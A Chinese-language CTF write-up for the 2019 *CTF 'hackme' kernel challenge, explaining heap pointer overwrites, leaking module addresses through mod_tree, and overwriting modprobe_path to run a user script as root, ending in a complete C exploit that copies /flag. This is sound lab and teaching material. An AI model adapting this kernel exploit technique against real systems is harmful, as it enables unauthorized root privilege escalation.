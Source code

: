 ```yaml
---
layout: post
title: 2019 STARCTF hackme
excerpt: "利用modprobe_path方法提权"
categories: [writeup]
comments: true
---
```

参考:https://xz.aliyun.com/t/6067

启动脚本
```
#! /bin/sh
qemu-system-x86_64 \
    -m 256M \
    -nographic \
    -kernel bzImage \
    -append 'console=ttyS0 loglevel=3 oops=panic panic=1 kaslr' \
    -monitor /dev/null \
    -initrd initramfs.cpio \
    -smp cores=4,threads=2 \
    -gdb tcp::1234 \
    -cpu qemu64,smep,smap
```
#### modprobe_path
modprobe_path指向了一个内核在运行未知文件类型时运行的二进制文件;当内核运行一个错误格式的文件的时候,会调用这个modprobe_path所指向的二进制文件去，如果我们将这个字符串指向我们的自己的二进制文件,那么在发生错误的时候就可以执行我们自己二进制文件了....

查看modprobe_path地址
```
root@snappyjack:~/2019# cat /proc/kallsyms | grep modprobe_path
ffffffffa405bce0 D modprobe_path
```
原理代码如下,其实就是调用了call_usermodehelper函数:
```
int __request_module(bool wait, const char *fmt, ...) 
{ 
    va_list args; 
    char module_name[MODULE_NAME_LEN]; 
    unsigned int max_modprobes; 
    int ret; 
// char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe"; 
    char *argv[] = { modprobe_path, "-q", "--", module_name, NULL }; 
    static char *envp[] = { "HOME=/", 
                "TERM=linux", 
                "PATH=/sbin:/usr/sbin:/bin:/usr/bin", 
                NULL }; // 环境变量. 
    static atomic_t kmod_concurrent = ATOMIC_INIT(0); 
#define MAX_KMOD_CONCURRENT 50    /* Completely arbitrary value - KAO */ 
    static int kmod_loop_msg; 

    va_start(args, fmt); 
    ret = vsnprintf(module_name, MODULE_NAME_LEN, fmt, args);   
    va_end(args); 
    if (ret >= MODULE_NAME_LEN) 
        return -ENAMETOOLONG; 
    max_modprobes = min(max_threads/2, MAX_KMOD_CONCURRENT);    
    atomic_inc(&kmod_concurrent); 
    if (atomic_read(&kmod_concurrent) > max_modprobes) { 
        /* We may be blaming an innocent here, but unlikely */ 
        if (kmod_loop_msg++ < 5) 
            printk(KERN_ERR 
                   "request_module: runaway loop modprobe %s\n", 
                   module_name); 
        atomic_dec(&kmod_concurrent);                           
        return -ENOMEM;                                         
    } 
    ret = call_usermodehelper(modprobe_path, argv, envp,        // 就是这个函数,执行用户空间的应用程序
            wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC); 
    atomic_dec(&kmod_concurrent);                                
    return ret; 
}
```
#### mod_tree
mod_tree是一块包含了模块指针的内存地址,通过查看这个位置我们可以获取到ko文件的地址,在我们需要泄露模块基地址,但是在堆或栈中没有找到的时候可以查看这块内存区域:
```
root@snappyjack:~/2019# grep mod_tree /proc/kallsyms
ffffffffa2d28390 t __mod_tree_remove
ffffffffa2d296b0 t __mod_tree_insert
ffffffffa4006a80 d mod_tree
```
#### 泄露模块地址
根据fastbin的特点,我们知道fd指针指向下一次我们可以申请的地址,如果我们将fd指针修改了,我们就可以拿到我们想要的内存了,同理我们这里也是通过覆盖fd指针为mod_tree的地址,然后就可以查看mod_tree的内容然后就可以得到模块地址了:

覆盖fd指针的方法是先通过向上越访问就可以修改到fd指针,然后alloc两个块,就可以拿到mod_tree了:

#### Use Modprobe_path
通常我们有了任意地址读写能力后,我们可以通过修改cred结构体或者劫持VDSO来进行高权限的操作,但是这里我们使用一种比较有意思的方法来进行高权限的操作;
modprobe_path所指的位置通常是发生了错误的时候才调用的

##### 总结:就是通过任意地址读写修改modprobe_path处的二进制文件,从而进行任意文件读写(modprobe_path就是一个字符串指针,原理是call_usermodehelper(modprobe_path, argv, envp...,所以将这个字符串指针改为我们想要的就行了,注意是绝对路径)
最终exp
```
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>

struct heap{
    size_t id;
    size_t *data;
    size_t len;
    size_t offset;
};
int fd;

void alloc(int id, char *data, size_t len){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    ioctl(fd,0x30000,&h);
}

void delete(int id){
    struct heap h;
    h.id = id;
    ioctl(fd,0x30001,&h);
}

void cin_kernel(int id, char *data, size_t len, size_t offset){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    h.offset = offset;
    ioctl(fd,0x30002,&h);
}

void cout_kernel(int id, char *data, size_t len, size_t offset){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    h.offset = offset;
    ioctl(fd,0x30003,&h);
}

int main(){
    fd = open("/dev/hackme",0);     // 打开设备
    size_t heap_addr,kernel_addr,mod_tree_addr,ko_addr,pool_addr;
    char *mem = malloc(0x1000);     // 申请一块内存空间
    if(fd < 0){
        printf("[*]OPEN KO ERROR!\n");
        exit(0);
    }
    memset(mem,'A',0x100);
    alloc(0,mem,0x100);         // 也是一种分配内存的方式
    alloc(1,mem,0x100);
    alloc(2,mem,0x100);
    alloc(3,mem,0x100);
    alloc(4,mem,0x100);

    delete(1);
    delete(3);
    cout_kernel(4,mem,0x100,-0x100);
    heap_addr = *((size_t  *)mem) - 0x100;
    printf("[*]heap_addr: 0x%16llx\n",heap_addr);

    cout_kernel(0,mem,0x200,-0x200);
    kernel_addr = *((size_t *)mem) - 0x0472c0;                  // 通过调试得到
    mod_tree_addr = kernel_addr + 0x011000;                     // 通过grep mod_tree /proc/kallsyms 得到
    printf("[*]kernel_addr: 0x%16llx\n",kernel_addr);           // 内核的基地址
    printf("[*]mod_tree_add: 0x%16llx\n",mod_tree_addr);        // 内核mod_tree地址

    memset(mem,'B',0x100);
    *((size_t  *)mem) = mod_tree_addr + 0x50;
    cin_kernel(4,mem,0x100,-0x100);
    memset(mem,'C',0x100);
    alloc(5,mem,0x100);
    alloc(6,mem,0x100);
    cout_kernel(6,mem,0x40,-0x40);
    ko_addr = *((size_t *)mem) - 0x2338;
    pool_addr = ko_addr + 0x2400;
    printf("[*]ko_addr: 0x%16llx\n",ko_addr);
    printf("[*]pool_addr: 0x%16llx\n",pool_addr);

    delete(2);
    delete(5);
    memset(mem,'D',0x100);
    *((size_t  *)mem) = pool_addr + 0xc0;
    cin_kernel(4,mem,0x100,-0x100);
    alloc(7,mem,0x100);
    alloc(8,mem,0x100);

    *((size_t *)mem) = kernel_addr + 0x03f960;
    *((size_t *)(mem+0x8)) = 0x100;
    cin_kernel(8,mem,0x10,0);

    strncpy(mem,"/home/pwn/copy.sh\0",18);
    cin_kernel(0xc,mem,18,0);


    system("echo -ne '#!/bin/sh\n/bin/cp /flag /home/pwn/flag\n/bin/chmod 777 /home/pwn/flag' > /home/pwn/copy.sh");
    system("chmod +x /home/pwn/copy.sh");                       // 运行一系列函数
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/pwn/sir");
    system("chmod +x /home/pwn/sir");

    system("/home/pwn/sir");
    system("cat /home/pwn/flag");
    return 0;
}
```